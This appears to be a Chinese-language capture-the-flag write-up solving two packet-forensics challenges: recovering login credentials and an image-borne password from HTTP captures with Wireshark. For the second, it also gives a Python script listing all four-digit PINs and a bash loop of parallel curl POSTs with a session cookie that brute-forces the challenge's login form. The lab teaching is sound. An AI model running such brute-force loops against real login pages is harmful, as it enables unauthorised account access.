



# forensic

## [40] packet 1
### **topic**
駭客貓貓想要這個網站的flag

駭客貓貓發現有人嘗試登入這個網站，駭客貓貓很聰明，他偷偷的錄下登入的封包，只是封包太多了

請幫駭客貓貓找出正確的帳號及密碼，把網站內的flag送給駭客貓貓！

http://mid.macacahub.tw:10110

### **hint**
> 目標主機IP？
> 
> 協定？

### **solution**
該題為封包分析。目的為取得帳號及密碼。

在忽略少許封包後，第一筆HTTP封包便可以看出一些資訊。

> 

但嘗試後該組帳號密碼是錯誤的。

可以直接尋找下一筆 HTTP 封包，或是利用 filter 過濾。

可使用 ip.addr == 140.117.176.121 或是 http。

過濾後會簡潔許多，嘗試每組帳號密碼後應可取得flag。

## [30] packet 2
### **topic**
哦哦，駭客貓貓似乎嗅到flag的味道了！

可是網站管理員很聰明，他們似乎打算用圖片把密碼傳出去！

請幫駭客貓貓還原圖片，找出密碼，取出flag！

http://mid.macacahub.tw:10120

對了，密碼似乎是個四位數的樣子！

### **hint**
> https://hexed.it/
> 
> 這裡可以寫16進制資料唷

### **solution**
先致歉，這題其實不需要使用 hex editor，但是出題者只會 hex editor 才會把 hint 寫成這樣。

一樣觀察封包，應可發現有 GET /01.png 的流量，呼應題目所說用圖片傳送密碼。
> 

此處可以使用 wireshark 的功能將圖片 dump 出來。
> 
> 
> File > Export Objects > HTTP

匯出後應可看到該封包內所有的圖片。
> 

儲存後利用密碼登入題目敘述的網站即可取得flag

> 其他解法：
> 
> 1. 親手利用 hex editor 把圖片取出
> 
> 2. 密碼只有一萬種可能，可以用腳本暴力猜測

#### 腳本暴力解
用 `python` script 產生所有可能解
```python=
#!/usr/bin/python3
# filename: a.py
for i in range(0,10):
    for j in range(0,10):
        for k in range(0,10):
            for l in range(0,10):
                print("{}{}{}{}".format(i, j, k, l))
```

把解輸出到檔案
```shell=
./a.py > pw
```

列舉密碼檔案暴力去 curl 它
```shell=
for i in $(cat pw); do curl 'http://mid.macacahub.tw:10120/' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://mid.macacahub.tw:10120' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://mid.macacahub.tw:10120/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cookie: session=564a7005-2079-425f-b60f-dc15d348b9a1.3GD_XB9BGY9rr7f1Cdud3SBwqwQ; user=5aa7e63c1b22' \
  --data-raw "password=$i" \
  --compressed \
  --insecure > $i &
done
```
可依據檔案大小，判斷何為密碼。
